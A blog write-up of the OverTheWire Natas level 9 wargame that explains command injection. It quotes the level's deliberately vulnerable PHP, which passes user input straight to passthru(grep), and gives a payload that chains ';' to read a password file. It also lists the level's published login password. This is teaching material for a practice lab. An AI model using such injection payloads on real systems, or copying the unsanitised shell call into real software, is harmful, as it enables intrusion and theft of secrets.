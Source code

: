 +++
author = "Alex Domnit"
title = 'Natas-Level 9'
date = 2024-08-20T16:29:39+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "Overthewire",
    "Natas",
]

toc = false
+++

### Login
*Username: natas9*\
*Password: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t*\
*URL:      http://natas9.natas.labs.overthewire.org*

### Doc
[What is command injection?](https://owasp.org/www-community/attacks/Command_Injection)\
Command injection is an attack in which the goal is execution of arbitrary commands on the host operating system via a vulnerable application. Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application. Command injection attacks are possible largely due to insufficient input validation.\
This attack differs from Code Injection, in that code injection allows the attacker to add their own code that is then executed by the application. In Command Injection, the attacker extends the default functionality of the application, which execute system commands, without the necessity of injecting code.


### Solution
Again we are prompted with a text field, a submit and the source code. This time the program does something different tho. Instead of asking for a password, it works more like a function in the sense that is searches for something somewhere. 

<img src="/img/natas/natas9-1.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>

Let`s inspect the source code:
{{< highlight html >}}
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas9", "pass": "<censored>" };</script></head>
<body>
<h1>natas9</h1>
<div id="content">
<form>
Find words containing: <input name=needle><input type=submit name=submit value=Search><br><br>
</form>


Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
</pre>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
{{< /highlight >}}

The logic behind this whole ordeal goes like this :\
-You insert a key\
-The program checks if there is actually a key in the field\
-If it is, the key parameter takes the value of your input\
-Your value get`s passed to **passthru("grep -i $key dictionary.txt");**

That last part was very important and it is gonna be the key to all of this. Because it passes your key as an argument in a grep command that is being run, you can perform something called command injection. It means you are executing commands through a way you are not supposed to. If we use a **;**, we can delimitate commands and make them abe to be run from the same line.\
This all basically adds up to "I will give it a random input, sepparate with ; and then run whatever I want". In this case, it is gonna be the same **cat** of the password file.
{{< highlight html >}}
a ; cat /etc/natas_webpass/natas10
{{< /highlight >}}

Executing this command will solve **natas9**.

<img src="/img/natas/natas9-2.png" alt="gif" style="display: block; margin-left: auto; margin-right: auto;">
<br>
